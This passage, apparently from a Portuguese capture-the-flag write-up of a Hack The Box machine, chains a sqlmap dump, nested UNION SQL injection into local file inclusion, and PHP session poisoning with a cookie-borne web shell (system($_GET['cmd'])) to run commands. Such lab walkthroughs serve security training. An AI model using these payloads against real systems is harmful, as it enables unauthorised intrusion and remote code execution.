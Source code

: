 Uma vez controlado o $tpl, próximo passo agora é verificar como podemos controlar o $inc

Do index.php temos

`SELECT path from filepath where name = $tpl`

Então devemos descobrir quais valores estão nesse `filepath` que é uma TABLE da DB neddy

`sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T filepath --dump --threads 10`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_sqlmap5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_sqlmap6.png)

Pelo visto a TABLE é feita de strings, que vão ser incluídas... então para ter controle total dela, a query vai ser assim:

`587' and 1=2 UNION select '1' union select '/etc/passwd'-- -'-- -`

"Protegendo" os ', temos -> `587' and 1=2 UNION select '1\' union select \'/etc/passwd\'-- -'-- -`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng12.png)

Verificando por esse lado essa query também irá funcionar

`587' union select "1' union select '/etc/passwd'-- -"-- -`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng13.png)

E sim! Funciona... pq será? Vamos lá, o ID é válido, primeiro e segundo check passou, e ele está fazendo um include em outro arquivo depois, pelo union select, então teoricamente a requisição ta parecida com uma real

Temos LFI! Mas não temos como conseguir shell com isso, então vamos mudar nossa abordagem

## Pegando shell (Log poison)

Vamos mandar a requisição pro BurpSuite (Pq fica melhor de visualizar e trabalhar)

Bom, não tenho como conseguir shell direto com o LFI, infelizmente. Mas consigo fazer um `log poisoning`. Vou escrever um simple php shell em um cookie, e ele vai poisonar (nem sei se essa palavra existe) a php session data, e vou ler a saída em /var/lib/php/sessions. Vai ser salvo com o meu cookie, no caso vai ser /var/lib/php/sessions/sess_ju4t3m307i7ua3bof9cfcgdoq1 (valor do meu PHPSSESID)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-unattended/U_ng14.png)

Agora vamos adicionar (ai que vem o poisoning) no PHPSSESID nosso php shell... e nos parâmetros lá em cima passamos nosso comando

`INJECTION=<?php system($_GET['cmd']) ?>`

Ficará assim

GET /index.php?`cmd=id`&id=587'+union+select+"1'+union+select+'/var/lib/php/sessions/sess_ju4t3m307i7ua3bof9cfcgdoq1'--+-"--+- 

Cookie: PHPSESSID=ju4t3m307i7ua3bof9cfcgdoq1; `INJECTION=<?php system($_GET['cmd']) ?>`
